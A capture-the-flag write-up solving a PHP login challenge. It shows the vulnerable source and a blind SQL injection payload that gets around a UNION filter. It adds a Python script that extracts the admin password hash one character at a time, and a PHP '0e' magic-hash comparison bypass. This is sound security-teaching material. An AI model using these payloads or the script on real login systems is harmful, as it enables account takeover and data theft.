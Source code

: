 ![description](images/description.png)

We're given the link to a login form, and the name of the user that we're trying to log in as. On the login page, we're given the source code for the login feature.

![login page](images/page.png)

```php

<html>
<head>
<title>The Wall</title>
</head>
<body>
<?php
include 'flag.php';

if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
    $username = $_REQUEST['life'];
    $password = $_REQUEST['soul'];

    if(!(is_string($username)&&is_string($password))){
        header( "refresh:1;url=login.html");
        die("You are not allowed south of wall");
    }

    $password = md5($password);
    
    include 'connection.php';
    /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/

    $message = "";
    if(preg_match('/(union|\|)/i', $username)){
        $message="Dead work alone not in UNIONs"."</br>";
        echo $message;
        die();
    }
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);

    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username'];
        }

    }
    else{
        $message = "No such person exists"."<br>";
    }
    echo $message;
}else{
    header( "refresh:1;url=login.html");
    die("Only living can cross The Wall");
}
?>

</body>
</html>

```

By looking at the php, we can see that there's a classic example of an SQL injection vulnerability in the following code:

```php
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);
```

If we insert a username containing a ', we can end the where clause and insert our own SQL commands into the query.

Normally at this point, I'd try to pull information out of the database using the UNION command, but the php code filters any form of "union" in the input, so we need to find a different way.

By messing around with the login form and looking at the source code, we noticed that we get different outputs depending on whether or not the SELECT statement returned at least 1 user. When the SELECT statement finds a user, and we give the wrong password, we get an output of "Wrong identity for : ".$users['username'], but when we don't find a valid user we get an output of "No such person exists". As such, we can insert code into the SQL query that will cause the SELECT to only return a user conditional on some information about their password. 

The way we did this is by adding onto the WHERE clause: we used a username of the form "LordCommander' AND password LIKE 'a%", in order to find whether or not the password starts with an a (the % sign in SQL is a wildcard character, so a% matches any string starting with an a). When inserted into the SQL query string, the query becomes: 

```sql
"SELECT * FROM users WHERE username='LordCommander' AND password LIKE 'a%'"
```

This test can be done for all of the characters in the set "01234567890abcdef" (since the stored value is an md5 hash) to find what character the password starts with, and this process can be repeated for every character of the password. Since we only have to guess 16 times at most per character of the password, this can be done very quickly.

To automate this, we wrote a quick python script that uses the requests library to interact with the website:

```python
import requests
import string

url = 'http://163.172.176.29/WALL/index.php'

response = ''
sofar = ''
while True:
    done = 1
    for char in "0123456789abcdef":
        print(char)
        params = {'life':'LordCommander\' AND password LIKE \''+ sofar + char + '%', 'soul':''}
        r = requests.post(url, data=params)

        if "Wrong identity" in r.text:
            sofar += char
            print("sofar=", sofar)
            done = 0
            break
    if done == 1:
        break
print sofar

```

Running the script gets us the md5 hash of the password: 0e565041023046045310587974628079

Running the hash through online hash crackers doesn't find anything. By looking back at the source code, we can see that the hashes are compared with the == operator:

```php
if($password == $users['password'])
```

The double equals operator is notoriously bad, and there's a fairly well known vulnerability with the operator in that two strings starting with "0e" will always compare as true. This is because the == operator does automatic type casting, and considers strings of the form "0exxxxxx" to be the same as the integer 0 * e^{xxxxxx}. Therefore when two strings starting with "0e" are compared, they both get casted to the integer 0, and the comparison will always evaluate to true.

By googling "0e php hash vulnerability", we can find another string whose hash starts with "0e" (I used the string "240610708"). By entering this as the password, we'll get past the password check, and will log in as the admin. We were given the flag on the admin page.